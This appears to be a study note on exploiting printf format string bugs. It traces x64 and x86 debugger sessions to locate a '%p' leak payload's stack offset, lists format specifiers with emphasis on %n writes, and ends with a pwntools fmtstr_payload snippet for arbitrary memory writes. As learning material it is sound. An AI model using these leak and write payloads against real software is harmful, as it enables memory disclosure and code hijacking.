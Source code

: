 ```
x64 int printf (rdi, rsi, rdx, rcx, r8, r9, rsp, rsp+0x8, rsp+0x10, ...);
x32 int printf (esp, esp+4, esp+8, esp+0x0c, esp+0x10, esp+14, esp+18, esp+0x1c , ...);
```

<details>
    <summary>### x64</summary>


`int printf ( const char * format, ... );`
`char *fgets(char *s, int size, FILE *stream);`

first we need to find find the `call printf()`

```
   0x000000000040128d <+72>:    lea    rax,[rbp-0x50]       
   0x0000000000401291 <+76>:    mov    esi,0x1f4
   0x0000000000401296 <+81>:    mov    rdi,rax              
   0x0000000000401299 <+84>:    call   0x4010c0 <fgets@plt>
   0x000000000040129e <+89>:    lea    rax,[rbp-0x50]
   0x00000000004012a2 <+93>:    mov    rdi,rax
   0x00000000004012a5 <+96>:    mov    eax,0x0
=> 0x00000000004012aa <+101>:   call   0x4010b0 <printf@plt>
```

notice before printf() is called rdi will be set to the addr of `[rbp-0x50]`:

```
   0x000000000040129e <+89>:    lea    rax,[rbp-0x50]
   0x00000000004012a2 <+93>:    mov    rdi,rax
```

```
$rbp  : 0x00007fffffffdf20  →  0x0000000000000000

0x00007fffffffdf20 - 0x50 = 0x00007fffffffded0
```

and rax will be set to 0x0
```
   0x00000000004012a5 <+96>:    mov    eax,0x0
```


break at `→   0x4012aa <main+101>       call   0x4010b0 <printf@plt>`
```
$rax   : 0x0               
$rbx   : 0x00000000004012d0  →  <__libc_csu_init+0> endbr64 
$rcx   : 0x00000000004052b8  →  0x0000000000000000
$rdx   : 0x0               
$rsp   : 0x00007fffffffdec0  →  0x0000000000400040  →  0x0000000400000006
$rbp   : 0x00007fffffffdf20  →  0x0000000000000000
$rsi   : 0x00000000004052a1  →  "p %p %p %p %p %p %p %p\n"
$rdi   : 0x00007fffffffded0  →  "%p %p %p %p %p %p %p %p\n"
$rip   : 0x00000000004012aa  →  <main+101> call 0x4010b0 <printf@plt>
$r8    : 0x00007fffffffded0  →  "%p %p %p %p %p %p %p %p\n"
$r9    : 0x7c              
$r10   : 0x00007ffff7fa7be0  →  0x00000000004056a0  →  0x0000000000000000
$r11   : 0x246             
$r12   : 0x00000000004010f0  →  <_start+0> endbr64 
$r13   : 0x00007fffffffe010  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdec0│+0x0000: 0x0000000000400040  →  0x0000000400000006    ← $rsp
0x00007fffffffdec8│+0x0008: 0x0000000100f0b5ff
0x00007fffffffded0│+0x0010: "%p %p %p %p %p %p %p %p\n"  ← $rdi, $r8
0x00007fffffffded8│+0x0018: "%p %p %p %p %p\n"
0x00007fffffffdee0│+0x0020: "p %p %p\n"
0x00007fffffffdee8│+0x0028: 0x0000000000401300  →  <__libc_csu_init+48> dec DWORD PTR [rax-0x3f]
0x00007fffffffdef0│+0x0030: 0x00007ffff7facfc8  →  0x0000000000000000
0x00007fffffffdef8│+0x0038: 0x00000000004012d0  →  <__libc_csu_init+0> endbr64 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40129e <main+89>        lea    rax, [rbp-0x50]
     0x4012a2 <main+93>        mov    rdi, rax
     0x4012a5 <main+96>        mov    eax, 0x0
 →   0x4012aa <main+101>       call   0x4010b0 <printf@plt>
   ↳    0x4010b0 <printf@plt+0>   endbr64 
        0x4010b4 <printf@plt+4>   bnd    jmp QWORD PTR [rip+0x2f6d]        # 0x404028 <printf@got.plt>
        0x4010bb <printf@plt+11>  nop    DWORD PTR [rax+rax*1+0x0]
        0x4010c0 <fgets@plt+0>    endbr64 
        0x4010c4 <fgets@plt+4>    bnd    jmp QWORD PTR [rip+0x2f65]        # 0x404030 <fgets@got.plt>
        0x4010cb <fgets@plt+11>   nop    DWORD PTR [rax+rax*1+0x0]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
printf@plt (
   $rdi = 0x00007fffffffded0 → "%p %p %p %p %p %p %p %p\n"
)


```
notice:


rsp = `0x00007fffffffdec0│+0x0000: 0x0000000000400040  →  0x0000000400000006     ← $rsp`

inspect the stack at 0x00007fffffffdec0

```
gef➤  tel 0x00007fffffffdec0
0x00007fffffffdec0│+0x0000: 0x0000000000400040  →  0x0000000400000006    ← $rsp
0x00007fffffffdec8│+0x0008: 0x0000000100f0b5ff
0x00007fffffffded0│+0x0010: "%p %p %p %p %p %p %p %p\n"  ← $rdi, $r8
0x00007fffffffded8│+0x0018: "%p %p %p %p %p\n"
0x00007fffffffdee0│+0x0020: "p %p %p\n"
0x00007fffffffdee8│+0x0028: 0x0000000000401300  →  <__libc_csu_init+48> dec DWORD PTR [rax-0x3f]
0x00007fffffffdef0│+0x0030: 0x00007ffff7facfc8  →  0x0000000000000000
0x00007fffffffdef8│+0x0038: 0x00000000004012d0  →  <__libc_csu_init+0> endbr64 
0x00007fffffffdf00│+0x0040: 0x0000000000000000
0x00007fffffffdf08│+0x0048: 0x00000000004010f0  →  <_start+0> endbr64 

```
this is what printf() prints back to us
```
0x4052a1 (nil) 0x4052b8 0x7fffffffded0 0x7c 0x400040 0x100f0b5ff 0x7025207025207025
```
`int printf ( const char * format, ... );`
`int printf (rdi, rsi, rdx, rcx, r8, r9, rsp, rsp+0x8, rsp+0x10, ...);`

rdi = holds the pointer to the Format_string

```

$rdi        : 0x00007fffffffded0  →  "%p %p %p %p %p %p %p %p\n"

$rsi        : 0x00000000004052a1  →  "p %p %p %p %p %p %p %p\n"
$rdx        : 0x0  
$rcx        : 0x00000000004052b8  →  0x0000000000000000
$r8         : 0x00007fffffffded0  →  "%p %p %p %p %p %p %p %p\n"
$r9         : 0x7c 

$rsp        : 0x00007fffffffdec0  →  0x0000000000400040  →  0x0000000400000006
$rsp+0x8    : 0x00007fffffffdec8│+0x0008: 0x0000000100f0b5ff
$rsp+0x10   : 0x00007fffffffded0│+0x0010: "%p %p %p %p %p %p %p %p\n"    ← $rdi, $r8         


```
notice:
that `0x7025207025207025 = "%p %p %p"` so our Format_string is stored @ `rsp+0x10`
and `$r8 : 0x00007fffffffded0` holds a pointer to out Format_string


    </div>
</details>















# x32
`int printf ( const char * format, ... );`
`char *fgets(char *s, int size, FILE *stream);`

first we need to find find the `call printf()`

```
   0x080492bf <+94>:    push   eax
   0x080492c0 <+95>:    push   0x40
   0x080492c2 <+97>:    lea    eax,[ebp-0x4c]               #ebp-0x4c Format_String
   0x080492c5 <+100>:   push   eax
   0x080492c6 <+101>:   call   0x80490b0 <fgets@plt>
   0x080492cb <+106>:   add    esp,0x10
   0x080492ce <+109>:   sub    esp,0xc
   0x080492d1 <+112>:   lea    eax,[ebp-0x4c]               #ebp-0x4c Format_String
   0x080492d4 <+115>:   push   eax                          # notice that push   eax
=> 0x080492d5 <+116>:   call   0x80490a0 <printf@plt>
```

notice before printf() is called eax will be set to the addr of `[ebp-0x4c]`:

`$ebp   : 0xffffd0b8  →  0x00000000`

```
0xffffd0b8 - 0x4c = 0xffffd06c
```

so after the `lea    eax,[ebp-0x4c]` eax will be = 0xffffd06c
and than eax gets pushed to esp

```
0x080492d4 <+115>:  push   eax                          
```

`0xffffd050│+0x0000: 0xffffd06c  →  "%p %p %p %p %p %p %p\n"     ← $esp`


break at `→  0x80492d5 <main+116>       call   0x80490a0 <printf@plt>`
```

$eax   : 0xffffd06c  →  "%p %p %p %p %p %p %p\n"
$ebx   : 0x0804bfd0  →  0x0804bed8  →  0x00000001
$ecx   : 0x0       
$edx   : 0xfbad2288
$esp   : 0xffffd050  →  0xffffd06c  →  "%p %p %p %p %p %p %p\n"
$ebp   : 0xffffd0b8  →  0x00000000
$esi   : 0xf7fac000  →  0x001ead6c
$edi   : 0xf7fac000  →  0x001ead6c
$eip   : 0x080492d5  →  <main+116> call 0x80490a0 <printf@plt>
$eflags: [zero carry parity ADJUST SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd050│+0x0000: 0xffffd06c  →  "%p %p %p %p %p %p %p\n"  ← $esp
0xffffd054│+0x0004: 0x00000040 ("@"?)
0xffffd058│+0x0008: 0xf7fac580  →  0xfbad2288
0xffffd05c│+0x000c: 0x08049292  →  <main+49> sub esp, 0xc
0xffffd060│+0x0010: 0x009c27ab
0xffffd064│+0x0014: 0x00000534
0xffffd068│+0x0018: 0x00000003
0xffffd06c│+0x001c: "%p %p %p %p %p %p %p\n"
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x80492ce <main+109>       sub    esp, 0xc
●   0x80492d1 <main+112>       lea    eax, [ebp-0x4c]
    0x80492d4 <main+115>       push   eax
 →  0x80492d5 <main+116>       call   0x80490a0 <printf@plt>
   ↳   0x80490a0 <printf@plt+0>   endbr32 
       0x80490a4 <printf@plt+4>   jmp    DWORD PTR ds:0x804bfdc
       0x80490aa <printf@plt+10>  nop    WORD PTR [eax+eax*1+0x0]
       0x80490b0 <fgets@plt+0>    endbr32 
       0x80490b4 <fgets@plt+4>    jmp    DWORD PTR ds:0x804bfe0
       0x80490ba <fgets@plt+10>   nop    WORD PTR [eax+eax*1+0x0]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
printf@plt (
   [sp + 0x0] = 0xffffd06c → "%p %p %p %p %p %p %p\n",
   [sp + 0x4] = 0x00000040
)



```
notice:

esp = `0xffffd050│+0x0000: 0xffffd06c  →  "%p %p %p %p %p %p %p\n"   ← $esp`

inspect the stack at 0xffffd050

```
gef➤  tel 0xffffd050
0xffffd050│+0x0000: 0xffffd06c  →  "%p %p %p %p %p %p %p\n"  ← $esp
0xffffd054│+0x0004: 0x00000040 ("@"?)
0xffffd058│+0x0008: 0xf7fac580  →  0xfbad2288
0xffffd05c│+0x000c: 0x08049292  →  <main+49> sub esp, 0xc
0xffffd060│+0x0010: 0x009c27ab
0xffffd064│+0x0014: 0x00000534
0xffffd068│+0x0018: 0x00000001
0xffffd06c│+0x001c: "%p %p %p %p %p %p %p\n"
0xffffd070│+0x0020: "p %p %p %p %p %p\n"
0xffffd074│+0x0024: "%p %p %p %p\n"
```
this is what printf() prints back to us
```
0x40 0xf7fac580 0x8049292 0x9c27ab 0x534 0x1 0x25207025
```
notice:
that `0x25207025 = "%p %"` so our Format_string is stored @ `esp+0x1c`

`int printf (esp, esp+4, esp+8, esp+0x0c, esp+0x10, esp+14, esp+18, esp+0x1c , ...);`

`esp` holds the pointer to our Format_string
`esp+0x1c` is the addr esp points to
```
$esp+0x04    0xffffd054│+0x0004: 0x00000040 ("@"?)
$esp+0x08    0xffffd058│+0x0008: 0xf7fac580  →  0xfbad2288
$esp+0x0c    0xffffd05c│+0x000c: 0x08049292  →  <main+49> sub esp, 0xc
$esp+0x10    0xffffd060│+0x0010: 0x009c27ab
$esp+0x14    0xffffd064│+0x0014: 0x00000534
$esp+0x18    0xffffd068│+0x0018: 0x00000001
$esp+0x1c    0xffffd06c│+0x001c: "%p %p %p %p %p %p %p\n"
```




















# Format table
```
specifier       Output                                      Example

d or i          Signed decimal integer                              392
u               Unsigned decimal integer                            7235
o               Unsigned octal                                      610
x               Unsigned hexadecimal integer                        7fa
X               Unsigned hexadecimal integer (uppercase)            7FA
f               Decimal floating point, lowercase                   392.65
F               Decimal floating point, uppercase                   392.65
e               Scientific notation (mantissa/exponent), lowercase  3.9265e+2
E               Scientific notation (mantissa/exponent), uppercase  3.9265E+2
g               Use the shortest representation: %e or %f           392.65
G               Use the shortest representation: %E or %F           392.65
a               Hexadecimal floating point, lowercase               -0xc.90fep-2
A               Hexadecimal floating point, uppercase               -0XC.90FEP-2
c               Character                                           a
s               String of characters                                sample
p               Pointer address                                     b8000000

n               Nothing printed.
                The corresponding argument must be a pointer to a signed int.
                The number of characters written so far is stored in the pointed location.


%               A % followed by another % character will write a single % to the stream. %

```

most interesing imo. are 
```
x               Unsigned hexadecimal integer                        7fa
c               Character                                           a
s               String of characters                                sample
p               Pointer address                                     b8000000

n               Nothing printed.
                The corresponding argument must be a pointer to a signed int.
                The number of characters written so far is stored in the pointed location.
```

some examples for interesting specifieres such as `%n %hn %hhn` and `%10000c` will come next

# pwntools Format string payload generator 
```
writes = {hex(where): hex(what)}
payload = pwnlib.fmtstr.fmtstr_payload(6, writes, numbwritten=0, write_size='byte') 
```

```
Parameters:    

    offset (int) – the first formatter’s offset you control
    writes (dict) – dict with addr, value {addr: value, addr2: value2}
    numbwritten (int) – number of byte already written by the printf function
    write_size (str) – must be byte, short or int. Tells if you want to write byte by byte, short by short or int by int (hhn, hn or n)
    overflows (int) – how many extra overflows (at size sz) to tolerate to reduce the length of the format string
    strategy (str) – either ‘fast’ or ‘small’ (‘small’ is default, ‘fast’ can be used if there are many writes)

Returns:    

The payload in order to do needed writes
```
